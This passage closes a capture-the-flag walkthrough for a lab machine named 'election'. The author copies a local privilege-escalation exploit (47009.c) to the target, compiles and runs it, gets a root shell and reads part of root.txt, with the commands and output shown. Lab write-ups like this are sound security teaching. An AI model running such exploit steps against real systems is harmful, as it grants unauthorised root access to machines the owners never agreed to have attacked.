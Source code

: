 Lets copy that onto the target server.
```
scp 47009.c love@$TARGETIP:/tmp/
```

Now jump back into our love ssh. Lets compile and run that exploit.

```
love@election:/tmp$ gcc 47009.c -o pe
love@election:/tmp$ ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
#
```
It looks like we have a simple shell. Lets see if we inherited root.
```
# whoami
root
```
We could upgrade it, or get the ssh or create a user. But cause this is a ctf type thing and there was a User.txt lets now check if there is a root.txt.
```
# cd /          
# cd root       
# ls -la
total 44
drwx------  6 root root 4096 Sep  3  2021 .
drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
-rw-------  1 root root   66 May 27  2020 .bash_history
drwx------  3 root root 4096 Apr  8  2020 .cache
drwx------  5 root root 4096 May 27  2020 .config
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Apr  9  2020 root.txt
-rw-r--r--  1 root root   66 Apr  2  2020 .selected_editor
-rw-r-----  1 root root    5 Sep  3 08:59 .vboxclient-display-svga.pid
# head -c 5 root.txt
5238f#
```
Boom we can read the file (only showing the first 5 chars here)
